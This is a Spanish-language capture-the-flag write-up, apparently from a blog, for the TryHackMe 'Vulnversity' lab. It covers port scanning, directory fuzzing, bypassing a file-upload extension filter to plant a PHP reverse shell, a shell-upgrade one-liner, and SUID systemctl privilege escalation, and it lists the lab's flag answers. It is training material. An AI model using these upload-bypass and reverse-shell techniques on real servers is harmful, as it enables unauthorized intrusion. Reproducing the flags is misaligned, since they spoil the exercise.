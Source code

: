 ```yaml
---
title: TryHackMe - Vulnversity
cover:
    image: "images/vulnversity-tryhackme/vulnversity.png"
categories: [Linux]
tags: [TryHackMe Writeups, eJPT]
---
```


Learn about active recon, web app attacks and privilege escalation.

## Tarea 1 

La tarea 1 simplemente es desplegar la máquina, por ende no debemos poner nada.


## Tarea 2 (Reconocimiento)

En esta sección nos proponen usar la herramienta Nmap para hacer un escaneo de puertos.

```
 nmap -sCV -p- --min-rate 5000 -Pn -n -oN escaneo 10.10.152.183
 Nmap scan report for 10.10.152.183
 Host is up (0.23s latency).
 Not shown: 65529 closed tcp ports (conn-refused)
 PORT     STATE SERVICE     VERSION
 21/tcp   open  ftp         vsftpd 3.0.3
 22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
 |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
 |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
 445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
 3128/tcp open  http-proxy  Squid http proxy 3.5.12
 |_http-server-header: squid/3.5.12
 |_http-title: ERROR: The requested URL could not be retrieved
 3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
 |_http-server-header: Apache/2.4.18 (Ubuntu)
 |_http-title: Vuln University
 Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
 
 Host script results:
 |_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
 | smb-os-discovery: 
 |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
 |   Computer name: vulnuniversity
 |   NetBIOS computer name: VULNUNIVERSITY\x00
 |   Domain name: \x00
 |   FQDN: vulnuniversity
 |_  System time: 2022-11-23T22:17:45-05:00
 | smb2-time: 
 |   date: 2022-11-24T03:17:45
 |_  start_date: N/A
 |_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
 | smb2-security-mode: 
 |   3.1.1: 
 |_    Message signing enabled but not required
 | smb-security-mode: 
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_  message_signing: disabled (dangerous, but default)
```

La máquina tiene abirtos los puertos 21(FTP), 22(SSH), 139(NETBIOS-SSN), 445(NETBIOS-SSN) 3128(HTTP-PROXY) y 3333(HTTP)

### Preguntas

1. There are many nmap "cheatsheets" online that you can use too. - ```No answer needed```
2. Scan the box, how many ports are open? - ```6```
3. What version of the squid proxy is running on the machine? - ```3.5.12```
4. How many ports will nmap scan if the flag -p-400 was used? - ```400```
5. Using the nmap flag -n what will it not resolve? - ```DNS```
6. What is the most likely operating system this machine is running? - ```Ubuntu```
7. What port is the web server running on? - ```3333```
8. It’s important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don’t forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background) - ```No answer needed```
___

## Tarea 3 (Locating directories)

```
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.152.183:3333/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.152.183:3333/FUZZ
Total requests: 220546

====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
====================================================================

000000002:   301        9 L      28 W       322 Ch      "images"                                                                                                               
000000536:   301        9 L      28 W       319 Ch      "css"                                                                                                                  
000000939:   301        9 L      28 W       318 Ch      "js"                                                                                                                   
000002757:   301        9 L      28 W       321 Ch      "fonts"                                                                                                                
000002970:   301        9 L      28 W       324 Ch      "internal"    
```

### Preguntas
1. What is the directory that has an upload form page? - ```/internal/```

## Tarea 4 (Compromise the webserver)

En la página ```http://10.10.152.183/internal``` tenemos una subida de archivos, intentemos subir un archivo de prueba.

![2022-11-24-01-04.png](https://i.postimg.cc/9F6SpQ3m/2022-11-24-01-04.png)

![2022-11-24-01-07.png](https://i.postimg.cc/dtGMgyjk/2022-11-24-01-07.png)

Como vemos nos dices  ```Extension not allowed ```, muy probablemente en el backend hay algún tipo de lista blanca que solo permita ciertas extensiones

Abriremos el BurpSuite y capturaremos la petición en la cual subimos el archivo, para luego mandarla al Intruder y desde ahí hacer un ataque de fuerza bruta a las diferentes extensiones que luego le coloquemos.

La explicacion de como hacerlo la voy a saltear ya que en el propio laboratorio explica como hacerlo.

![2022-11-24-01-22.png](https://i.postimg.cc/mgMQYbRG/2022-11-24-01-22.png)

Como vemos, la extensión ```.phtml``` está admitida porque la longitud de la respuesta es distinta, vamos a subir un [reverse shell](https://raw.githubusercontent.com/jivoi/pentest/master/shell/rshell.php) con extensión ```.phtml```.

Para eso pueden usar esa reverse shell que coloque ahí, la tienen que modificar poniendo su IP y el puerto que ustedes quieran.

![2022-11-24-01-39.png](https://i.postimg.cc/26DRkdFB/2022-11-24-01-39.png)

Al subir el archivo nos debe salir success, ahora tenemos que ver donde se almacenan los archivos que subimos, para eso vamos a hacer fuzzing en el directorio ```/internal```

```
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.152.183:3333/internal/FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.152.183:3333/internal/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000150:   301        9 L      28 W       332 Ch      "uploads"    
```

Como observamos encontramos un directorio uploads, si entramos veremos que ahí esta subida nuestra reverse shell.

![2022-11-24-01-49.png](https://i.postimg.cc/vmHgT9YD/2022-11-24-01-49.png)

Nos pondremos en escucha por el puerto que le dedicamos a la reverse shell y le daremos clic.

![2022-11-24-01-56.png](https://i.postimg.cc/Px0Q1KJS/2022-11-24-01-56.png)

Luego de eso pondremos ```python3 -c 'import pty;pty.spawn("/bin/bash")'```

Si nos dirigimos al ```/home```, veremos que hay un usuario llamado ```bill```, nos meteremos a su directorio y listaremos la flag de user.

### Preguntas

1. What is the name of the user who manages the webserver? - ```bill```
2. What is the user flag? - ```8bd7992fbe8a6ad22a63361004cfcedb```

## Tarea 5 (Privilege Escalation)

Para escalar privilegios, vamos a buscar por permisos SUID.

```
find / -perm -4000 2>/dev/null

/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

Como vemos hay un programa SUID que normalmente no se suele ver, hablo del ```/bin/systemctl```, si lo buscamos en [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#suid) podemos ver que hay una forma de abusar de él para escalar nuestro privilegio.

## Preguntas 

1. On the system, search for all SUID files. What file stands out? - ```/bin/systemctl```
2. Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer? - ```a58ff8579f0a9270368d33a9966c7fd5```
